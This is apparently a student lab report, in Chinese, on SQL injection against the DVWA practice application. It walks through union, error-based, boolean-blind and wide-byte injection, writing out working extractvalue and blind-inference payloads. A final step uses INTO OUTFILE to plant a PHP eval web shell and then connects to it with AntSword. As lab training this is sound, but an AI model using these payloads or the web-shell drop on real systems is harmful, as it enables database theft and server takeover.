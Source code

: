 # 一、分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤。

### 1、发现sql注入

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-24-59-1695784337560_9F245C84-002C-48f5-9F22-9EBC3F80FAD7.png)

### 2、利用union 爆库名

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-26-22-446c8697456db91c23ad02e2dd643cf7.png)

### 3、爆表名

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-26-51-f0ec2a96fce837d9fe06c4e56e79de03.png)

### 4、爆字段名

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-27-35-3cf6315acc3c696b04646e6bc85801f3.png)

### 5、获取字段first_name 具体值

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-28-27-f73aad0d0cb4d8db9c9bc4d8c6e24d9f.png)

# 二、分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题：

### 后端

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-41-20-1695793264122.png)

### 前端

爆库名
1' and extractvalue(1,concat(0x7e,database()));#

![](https://static.dingtalk.com/media/lQLPJwUqQOCtkSzMi80FULD41sAve-VBTAUGyECOgLkA_1360_139.png)

爆表数
1' and extractvalue(1,concat(0x7e,(select count(table_name) from
information_schema.tables where table_schema=database())));#

![](https://static.dingtalk.com/media/lQLPJxuVKj018SzMqs0GRLBJkysaKYeIhwUGyECOgLkB_1604_170.png)

爆表名
1' and extractvalue(1,concat(0x7e,(select table_name from
information_schema.tables where table_schema=database() limit 1,1)));#

![](https://static.dingtalk.com/media/lQLPJxK8hdwcLOzMjc0GNLCAOB7_vremlAUGyIJHQLkA_1588_141.png)

爆列名
1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 0,1)));#

![](https://static.dingtalk.com/media/lQLPJxZKBIDirOzMgs0GqLA22Tm6jSMhZAUGyIJHQLkB_1704_130.png)

- 在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？
  
  ### 第一个参数 是XML_document 允许 ~，第二个参数是xpath_string ,路径不允许~
- 报错注入中，为什么要突破单引号的限制，如何突破？
  
  ### 为了截断和跳出，是语句可以允许后续的语句。
- 在报错注入过程中，为什么要进行报错，是哪种类型的报错？
  
  ### 前端会返回数据库报错信息，报错信息中会含有语句运行的内容，即我们想获取的信息。

# 三、任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。

### 1、猜数据库名字长度（二分思维）

1' and length(database())>10;# MISSING
1' and length(database())>5;# MISSING
1' and length(database())>3;# exists
1' and length(database())=4;# exists

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-57-32-image.png)

### 2、数据库名称的字符组成元素 substr  和 ascii

1' and ascii(substr(database(),1,1))>88;# exists
1' and ascii(substr(database(),1,1))>98;# exists
1' and ascii(substr(database(),1,1))>100;# MISSING
1' and ascii(substr(database(),1,1))=100;# exists

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-13-59-40-image.png)

### 3.表的个数

1' and (select count(table_name) from information_schema.tables where
table_schema=database())>10;# MISSING
1' and (select count(table_name) from information_schema.tables where
table_schema=database())>5;# MISSING
1' and (select count(table_name) from information_schema.tables where
table_schema=database())>2;# MISSING
1' and (select count(table_name) from information_schema.tables where
table_schema=database())=2;# exists

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-14-01-54-image.png)

### 4.解表名，先解长度，再解具体值（ascii和substr）

#### 长度

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>10;# MISSING
1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>5;# exists
1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>8;# exists
1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))=9;# exists
也可以写成：
1' and length(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1))=9;# exists![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-14-10-07-image.png)

#### 字段值

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>101;# exists
1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>103;# MISSING
1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))=102;# MISSING
1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))=103;# exists

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-14-10-48-image.png)

### 5.获取表字段，常用字段（password）

用户名：username/user_name/uname/u_name/user/name/...
密码：password/pass_word/pwd/pass/...



# 四、 利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。

### 1、宽字节注入

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-01-50-1695795833540_0E9A18C2-BFB0-40f2-9A86-BDBCA4A55763.png)

### 2、爆库名

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-02-10-1695795986326_5D8A8F1D-6738-4982-8BFA-0AC661C99991.png)

### 3、爆表名

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-02-24-1695797445755_7C79E8A1-56C7-409f-8F5E-48D06711B082.png)

### 4、 爆字段名

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-02-34-1695798054811_69780475-C95A-41df-A9D8-6C1798417E37.png)



# 五、 利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤。

### 1、利用sql注入，上传一句话木马到文件

' union select 1,"<?php eval($_POST['a']);" into outfile  '/var/www/html/jk.php

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-12-37-1695798483860_79B57C56-76F8-4e8c-B1F8-07F8B2BBEC61.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-12-53-1695798512481_1788A0D4-23DA-4311-8A46-5758445CAC48.png)

### 2、利用AntSword 进行连接

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-14-35-1695798676090_904036E2-CC09-4008-803B-A974B2654FDB.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-09-27-15-14-42-1695798701546_10D57410-7948-4c22-B9DA-7B5F0883D416.png)

